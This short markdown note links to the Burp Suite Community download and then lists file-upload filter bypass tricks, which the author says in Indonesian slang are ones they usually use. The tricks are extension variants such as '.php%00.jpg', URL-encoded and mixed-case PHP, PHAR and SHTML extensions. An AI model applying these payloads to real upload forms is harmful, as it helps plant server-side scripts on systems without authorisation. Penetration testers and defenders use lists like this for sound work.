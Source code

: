 Burp Suite installing 
====================
https://portswigger.net/burp/communitydownload

Uploads Trick :
=============
biasa yg sering gw pake sih kaya gini
.php<?.jpg
.php.0x00.jpg
.php.%20.jpg
.php.%2F.jpg
.php">.jpg
.PhtML<reverse>
.PHar<reverse>
.PHp<1-8>
.PHt<reverse>
.SHtmL
